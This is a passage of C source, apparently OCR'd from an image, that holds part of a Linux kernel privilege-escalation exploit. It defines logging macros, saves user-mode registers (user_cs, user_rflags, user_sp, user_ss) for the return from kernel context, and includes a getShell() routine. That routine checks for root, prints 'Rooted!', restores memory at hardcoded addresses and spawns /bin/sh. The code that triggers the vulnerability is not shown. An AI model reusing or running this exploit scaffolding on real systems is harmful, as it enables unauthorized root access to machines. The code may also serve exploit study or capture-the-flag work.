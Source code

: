 ```c
#define logInfo(msg, ...) dprintf(STDERR_FILENO, "[*] " msg "\n", ##__VA_ARGS__)
#define logErr(msg, ...) dprintf(STDERR_FILENO, "[!] " msg "\n", ##__VA_ARGS__)
#else
#define errExit(...) \
    do               \
    {                \
    } while (0)

#define WAIT(...) errExit(...)
#define logOK(...) errExit(...)
#define logInfo(...) errExit(...)
#define logErr(...) errExit(...)
#endif

#define asm __asm__

u64 user_ip;
u64 user_cs;
u64 user_rflags;
u64 user_sp;
u64 user_ss;

u8 WAIT()
{
    write(STDERR_FILENO, "[WAITING...]\n", 13);
    u8 c;
    read(STDIN_FILENO, &c, 1);
    return c;
}

static inline void panic(const char* msg)
{
    perror(msg);
    exit(EXIT_FAILURE);
}

uint64_t bak1;
uint64_t bak2;
uint64_t bak3[2];
uint64_t bak4[2];
uint64_t bak5[11];

void getShell()
{
    if (getuid())
    {
        panic("NO ROOT");
    }
    write(STDERR_FILENO, "Rooted!\n", 8);

    *(uint64_t*)(0x1337060) = bak1;
    *(uint64_t*)(0x13380b0) = bak2;
    memcpy((void*)0x1338000, bak3, sizeof(bak3));
    memcpy((void*)0x1338090, bak4, sizeof(bak4));
    memcpy((void*)0x1337078, bak5, sizeof(bak5));

    char* argv[] = { "/bin/sh", NULL };
    char** envp = &argv[1];
    execve(argv[0], argv, envp);
}



```